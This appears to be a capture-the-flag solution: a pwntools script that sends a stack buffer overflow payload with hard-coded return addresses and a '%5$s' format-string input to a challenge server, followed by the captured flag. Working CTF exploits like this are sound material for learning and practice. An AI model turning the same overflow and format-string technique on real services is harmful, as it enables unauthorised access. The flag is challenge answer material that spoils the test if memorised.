

# solve.py

```py
from pwn import *

r = remote('gold.b01le.rs', 4008)

r.recv()

p = b'A' * 72
p += p64(0x401216)
p += p64(0x40101a)
p += p64(0x40131F)

r.sendline(p)

r.recvuntil(b'song? ')
r.sendline(f'%5$s'.encode())

print(r.recv())
```


# FLAG

**`bctf{dr1ving_a_n3w_maser@t1_d0wn_@_d3ad_3nd_str33t_eb30c235cde76705}`**

